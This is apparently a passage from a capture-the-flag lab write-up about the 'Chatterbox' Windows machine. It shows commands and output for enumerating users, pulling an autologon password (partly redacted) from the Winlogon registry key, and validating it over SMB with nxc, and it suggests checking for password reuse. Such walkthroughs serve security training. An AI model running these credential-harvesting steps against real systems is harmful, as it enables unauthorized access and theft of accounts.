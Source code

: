 Let's see how many users are on this box

```bash
C:\Windows\Panther>net users
net users

User accounts for \\CHATTERBOX

-------------------------------------------------------------------------------
Administrator            Alfred                   Guest                    
The command completed successfully.
```

OK, so it's just us and the admin.. let's hunt for some credentials...

aaaaaand we find a default password in the registry!

```bash
C:\Windows\Panther>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    W[...SNIP...]

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AutoLogonChecked
```

Now the question is, who's password is it?

Let's find out!

```bash
nxc smb 10.129.238.144 -u 'alfred' -p 'W[...SNIP...]' --shares
SMB         10.129.238.144  445    CHATTERBOX       [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True) 
SMB         10.129.238.144  445    CHATTERBOX       [+] Chatterbox\alfred:W[...SNIP...]
SMB         10.129.238.144  445    CHATTERBOX       [*] Enumerated shares
SMB         10.129.238.144  445    CHATTERBOX       Share           Permissions     Remark
SMB         10.129.238.144  445    CHATTERBOX       -----           -----------     ------
SMB         10.129.238.144  445    CHATTERBOX       ADMIN$                          Remote Admin
SMB         10.129.238.144  445    CHATTERBOX       C$                              Default share
SMB         10.129.238.144  445    CHATTERBOX       IPC$                            Remote IPC
```
Looks like that's Alfreds password, but it never hurts to check and see if it works for other users, you know, password reuse and all that...
